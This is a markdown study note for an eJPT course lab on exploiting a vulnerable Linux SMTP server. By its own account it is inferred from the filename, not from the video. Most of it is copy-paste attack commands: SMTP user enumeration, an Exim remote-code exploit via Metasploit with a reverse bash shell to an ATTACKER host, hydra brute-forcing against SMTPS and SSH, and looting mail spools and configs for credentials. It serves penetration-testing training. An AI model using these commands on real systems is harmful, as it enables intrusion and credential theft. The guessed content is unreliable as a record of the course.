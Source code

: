 # 10 - Exploiting A Vulnerable SMTP Server (eJPT)

Note: No transcript was provided. The following is a conservative, eJPT-style summary inferred from the filename and module context (02-LinuxExploitation). Commands and flows reflect common lab approaches to exploiting a vulnerable SMTP service on Linux (e.g., Exim).

## What the video covers (Introduction / big picture)
- How to enumerate and exploit a vulnerable SMTP server running on Linux.
- Identifying SMTP software/version and enabled features (VRFY, EXPN, AUTH, STARTTLS).
- Using Nmap NSE and manual SMTP to detect misconfigurations (open relay, user enumeration).
- Checking for known SMTP server RCEs (commonly Exim vulnerabilities) and exploiting via Metasploit.
- Alternate paths: credential discovery via user enumeration + bruteforce; using mail spools for secrets post-compromise.

## Flow (ordered)
1. Port scan and service detection for SMTP (25/465/587).
2. SMTP banner and command enumeration (EHLO, VRFY, EXPN).
3. Run Nmap NSE scripts for features, relay, user enum, and known vulns.
4. If Exim is detected, probe for known CVEs; try Metasploit exploit for Exim RCE if applicable.
5. If no RCE: test for open relay; attempt VRFY-based user enum; check if SMTP AUTH is offered.
6. If AUTH present, attempt targeted bruteforce; or use discovered users to attack other services (e.g., SSH).
7. On shell: enumerate system and loot mail/config files for credentials.
8. Clean up and document findings.

## Tools highlighted
- nmap (+ NSE: smtp-commands, smtp-open-relay, smtp-enum-users, smtp-vuln-cve2010-4344, smtp-vuln-cve2011-1764)
- nc or telnet (manual SMTP), openssl s_client (STARTTLS)
- swaks (SMTP testing, AUTH, relay checks)
- Metasploit Framework (auxiliary SMTP scanners; exploit/unix/smtp/exim4_string_format)
- searchsploit (lookup public exploits)
- hydra (optional brute-force if SMTP AUTH is enabled; otherwise SSH)
- nc (listener) for reverse shells

## Typical command walkthrough (detailed, copy-paste friendly)

Replace TARGET with the target IP or host. Replace ATTACKER with your IP.

1) Initial scan and service/version detection
```
mkdir -p scans
nmap -Pn -p25,465,587 -sV -sC -oN scans/smtp_initial.txt TARGET
```

2) SMTP feature and misconfiguration enumeration
```
# NSE for commands, user enum, open relay
nmap -Pn -p25 --script "smtp-commands,smtp-open-relay,smtp-enum-users" -oN scans/smtp_nse_features.txt TARGET

# Probe known Exim vulns (only if present)
nmap -Pn -p25 --script "smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1764" -oN scans/smtp_nse_vulns.txt TARGET
```

3) Manual banner and command checks (cleartext)
```
# Quick banner grab
nc -nv TARGET 25

# Scripted EHLO/VRFY/EXPN test
cat << 'EOF' | nc -nv TARGET 25
EHLO attacker.local
VRFY root
VRFY www-data
EXPN root
QUIT
EOF
```

4) STARTTLS (if offered) with openssl
```
# STARTTLS handshake; -crlf ensures proper line endings
openssl s_client -starttls smtp -connect TARGET:25 -crlf
# After the TLS session is established, type:
# EHLO attacker.local
# AUTH LOGIN
# (send base64 user, then base64 pass)
```

5) swaks for SMTP testing (relay and AUTH)
```
# Open relay test (should fail on a secure server)
swaks --server TARGET --port 25 --from you@attacker.tld --to someone@external.tld --timeout 10

# Local delivery test (typically allowed)
swaks --server TARGET --port 25 --from probe@attacker.tld --to root@localhost --timeout 10

# AUTH detection and test (with STARTTLS)
swaks --server TARGET --port 25 --ehlo attacker --tls-starttls --timeout 10

# If AUTH LOGIN/PLAIN is offered and you have a guess:
swaks --server TARGET --port 25 --ehlo attacker --tls-starttls --auth LOGIN --auth-user user --auth-password 'password'
```

6) Metasploit auxiliary SMTP enumeration
```
msfconsole -q -x "use auxiliary/scanner/smtp/smtp_enum; set RHOSTS TARGET; set THREADS 10; run; exit"

msfconsole -q -x "use auxiliary/scanner/smtp/smtp_ntlm_info; set RHOSTS TARGET; run; exit"  # Useful for Exchange/NTLM
```

7) Check for Exim RCE (common in labs) and exploit
```
# Identify Exim in banners or with nmap -sV, then:
searchsploit exim

# Metasploit Exim string format exploit (CVE-2010-4344/2011-1764 chain)
msfconsole
use exploit/unix/smtp/exim4_string_format
set RHOSTS TARGET
set RPORT 25
set LHOST ATTACKER
set LPORT 4444
set PAYLOAD cmd/unix/reverse_bash
run
```

8) Prepare a listener (if using reverse shell payload manually or via other exploit)
```
nc -lvnp 4444
```

9) If SMTP AUTH allows bruteforce (less common on port 25; often on 587 or 465)
```
# Only if AUTH is offered. For implicit TLS on 465:
nmap -Pn -p465 -sV TARGET

# Bruteforce smtps (465)
hydra -V -f -l user -P /usr/share/wordlists/rockyou.txt -s 465 TARGET smtps

# If AUTH is on 587 (STARTTLS), prefer swaks for validation; for brute-force, consider focusing on SSH instead with enumerated users:
hydra -V -f -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://TARGET
```

10) Post-exploitation looting (after shell)
```
whoami; id; hostname; uname -a
# Look for mail and creds
ls -l /var/mail/ || ls -l /var/spool/mail/
grep -RniE 'passw|secret|api|token' /var/mail/ 2>/dev/null
# Common configs where SMTP creds may live
grep -RniE 'sasl|auth|password' /etc/postfix/ /etc/exim/ /etc/exim4/ 2>/dev/null
# System users discovered via VRFY can help pivot to SSH
cat /etc/passwd | cut -d: -f1
```

## Practical tips
- Always run EHLO first; it reveals extensions (AUTH, STARTTLS, PIPELINING, etc.).
- Use proper CRLF line endings when speaking SMTP manually. With openssl s_client, -crlf helps; with nc, prefer printf with \r\n.
- VRFY/EXPN may be disabled; fall back to NSE scripts and wordlists for RCPT TO-based enumeration.
- If you see Exim with a vulnerable version (e.g., older 4.6x–4.7x), check for the known string format RCE chain; Metasploit often lands a quick shell.
- Open relay is often disabled; if enabled, document thoroughly. It’s usually not direct code execution, but it is a high-impact misconfiguration.
- If SMTP AUTH is not offered on 25, check 587 (submission) and 465 (smtps).
- Prefer targeted bruteforce with known usernames (from VRFY or from other services) to reduce noise.
- After compromise, mail spools and MTA configs can contain passwords, API keys, and internal paths.

## Minimal cheat sheet (one-screen flow)
```
# Scan
nmap -Pn -p25,465,587 -sV -sC TARGET -oN smtp_initial.txt
nmap -Pn -p25 --script "smtp-commands,smtp-open-relay,smtp-enum-users,smtp-vuln-cve2010-4344" TARGET -oN smtp_nse.txt

# Manual enum
cat << 'EOF' | nc -nv TARGET 25
EHLO attacker.local
VRFY root
EXPN root
QUIT
EOF

# STARTTLS
openssl s_client -starttls smtp -connect TARGET:25 -crlf

# swaks checks
swaks --server TARGET --port 25 --from you@attacker.tld --to someone@external.tld     # open relay test
swaks --server TARGET --port 25 --ehlo attacker --tls-starttls                        # list extensions
swaks --server TARGET --port 25 --tls-starttls --auth LOGIN -au user -ap 'pass'       # AUTH test

# Metasploit Exim exploit (if version vulnerable)
msfconsole -q -x "use exploit/unix/smtp/exim4_string_format; set RHOSTS TARGET; set RPORT 25; set LHOST ATTACKER; set LPORT 4444; set PAYLOAD cmd/unix/reverse_bash; run"

# Listener (if needed)
nc -lvnp 4444

# Post-ex
ls -l /var/mail/; grep -RniE 'pass|key|token' /var/mail/ 2>/dev/null
```

## Summary
- The lab demonstrates enumerating and exploiting a Linux SMTP service. Start with Nmap to identify the server and features, then use manual SMTP (EHLO/VRFY/EXPN), NSE scripts, and swaks to validate capabilities like STARTTLS and AUTH. If Exim is detected and the version is known-vulnerable, use the Metasploit exim4_string_format exploit to gain code execution. If RCE isn’t available, leverage user enumeration to attack other services (e.g., SSH), or test SMTP AUTH where applicable. After compromise, loot mail spools and MTA configs for credentials and sensitive data.